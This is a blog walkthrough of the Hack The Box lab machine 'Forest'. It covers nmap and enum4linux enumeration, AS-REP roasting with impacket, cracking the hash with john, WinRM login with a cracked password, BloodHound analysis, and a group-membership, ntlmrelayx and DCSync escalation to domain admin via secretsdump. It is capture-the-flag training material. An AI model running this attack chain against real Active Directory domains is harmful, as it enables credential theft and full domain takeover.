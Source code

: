 ```yaml
---
layout: post
title:  Hack The Box - Forest
category: walkthrough
date:   2020-08-05 05:00:00
---
```


# ![forest](/assets/img/forest/forest.png)  
<p align="center"> Forest is a easy machine created by <a href="https://www.hackthebox.eu/home/users/profile/1190">egre55</a> & <a href="https://www.hackthebox.eu/home/users/profile/2984">mrb3n</a></p>  

# ENUM  
### <center>nmap</center>  
<hr>  
nmap -sC -Pn -sV -T4 10.10.10.161  
<hr>  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-08-05 07:30 -03  
>Nmap scan report for 10.10.10.161  
>Host is up (0.23s latency).  
>Not shown: 989 closed ports  
>PORT     STATE SERVICE      VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP:   
>|     version  
>|_    bind  
>88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-05 10:41:15Z)  
>135/tcp  open  msrpc        Microsoft Windows RPC  
>139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
>389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=8/5%Time=5F2A8A51%P=x86\_64-pc-linux-gnu%r(DNSVe  
>SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x  
>SF:04bind\0\0\x10\0\x03");  
>Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows  

>Host script results:  
>|_clock-skew: mean: 2h30m39s, deviation: 4h02m31s, median: 10m37s  
>| smb-os-discovery:   
>|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)  
>|   Computer name: FOREST  
>|   NetBIOS computer name: FOREST\x00  
>|   Domain name: htb.local  
>|   Forest name: htb.local  
>|   FQDN: FOREST.htb.local  
>|_  System time: 2020-08-05T03:43:35-07:00  
>| smb-security-mode:   
>|   account\_used: guest  
>|   authentication\_level: user  
>|   challenge\_response: supported  
>|_  message_signing: required  
>| smb2-security-mode:   
>|   2.02:   
>|_    Message signing enabled and required  
>| smb2-time:  
>|   date: 2020-08-05 07:43:36  
>|_  start\_date: 2020-08-05 06:33:34  

>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 277.86 seconds  

<center>Nmap gives me the domain htb.local</center>  
<p align="center">Now I need usernames to try use <a href="https://github.com/ifconfig-me/impacket">impacket</a></p><br>  
  
### <center>enum4linux</center>  
<p align="center"><a href="https://github.com/CiscoCXSecurity/enum4linux">enum4linux</a> 10.10.10.161</p><br>  
<center>enum4linux shows a list of users</center>  
# ![user](/assets/img/forest/forest1.png)  
  
# exploit  
  
<center>Now I can use impacket's GetNPUser.py</center>  
### <center>impacket</center>  
<hr>  
<center>./GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass</center>  
<hr>  
<center>Impacket found the hash of svc-alfresco user</center>  
# ![hash](/assets/img/forest/forest15.png)  
<center>John will help me to crack it</center>  
<center>john -w=/usr/share/wordlists/rockyou.txt hash.as</center>  
# ![pass](/assets/img/forest/forest3.png)  
  
<p align="center"><a href="https://github.com/Hackplayers/evil-winrm">evil-winrm</a> to acess the machine</p><br>  
<hr>
<center>./evil-winrm.rb -i 10.10.10.161 -p s3rvice -u svc-alfresco</center>  
<hr>
# ![shell](/assets/img/forest/forest4.png)    
# Privilege Escalation  
### <center>bloodhound</center>  
<center>The hound</center>  
<hr>  
<center>./bloodhound.py -d htb.local -ns 10.10.10.161 -u svc-alfresco -p s3rvice -c all</center>  
# ![bloodHound](/assets/img/forest/forest5.png)  
<hr>  
<center>Just zip all the .json file and send to bloodhound</center>  
<p align="center"> svc-alfresco is member of <a href="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)">Account Operators</a></p>  
# ![group](/assets/img/forest/forest6.png)  

# ![exchange1](/assets/img/forest/forest7.png) 
<center>And exchange windows permissons group has WriteDacl</center> 
# ![exchange2](/assets/img/forest/forest8.png)  
# ![writDacl](/assets/img/forest/forest9.png)  

<center>If I add a user to Exchange Windows Permissions group I'll be able to do a DCSync attack</center>  
### <center>impacket</center>  
<center>net group "Exchange Windows Permissions" svc-alfresco /add</center>  
# ![netGroup](/assets/img/forest/forest10.png)  
<center>to add svc-alfresco in the group<br>  
and impacket's ntlmrelayx.py<br>  
<br><hr>
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco<br>  
<hr><br>
Logged as svc-alfresco in localhost</center>  
# ![localhost](/assets/img/forest/forest11.png)  
<center>and..</center>  
# ![ntlmrelayx](/assets/img/forest/forest12.png)  
<center>Ready for secretsdump</center>  
# ![secretsDump](/assets/img/forest/forest13.png)  
<center>Evil again as admin</center>  
# ![evilAdmin](/assets/img/forest/forest14.png)  
